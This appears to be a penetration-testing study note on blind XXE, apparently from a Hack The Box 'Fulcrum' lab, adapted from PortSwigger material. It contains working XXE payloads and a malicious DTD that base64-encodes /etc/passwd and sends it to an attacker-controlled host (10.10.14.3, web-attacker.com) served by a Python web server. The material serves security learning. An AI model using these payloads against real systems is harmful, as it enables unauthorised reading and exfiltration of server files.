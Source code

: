 You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
```c
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3"> ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
![[Pasted image 20230206005533.png]]
In this case we receive a request on our web server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.62 - - [06/Feb/2023 06:50:04] "GET / HTTP/1.0" 200 -
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```c
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```c
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```c
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.14.3"> %xxe; ]>
```
![[Pasted image 20230206005654.png]]
Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
![[Pasted image 20230206005910.png]]
```c
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY filename SYSTEM 'http://10.10.14.3/%file;'>">
```

This DTD carries out the following steps:

-   Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file with a wrapper to encode the payload as base64.
-   Defines an XML parameter entity called `param1`, containing a dynamic declaration of another XML parameter entity called `filename`. The `filename` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
-   Uses the `param1` entity, which causes the dynamic declaration of the `filename` entity to be performed.
-   Uses the `filename` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```bash
http://10.10.14.3/structure.xml
# Python web server:
python3 -m http.server 80
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```c
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/structure.xml"> %xxe; %param1;]>

<Heartbleed>
<Ping>&filename;</Ping>
</Heartbleed>
```
![[Pasted image 20230206013133.png]]
Examples:
[[Fulcrum#^]]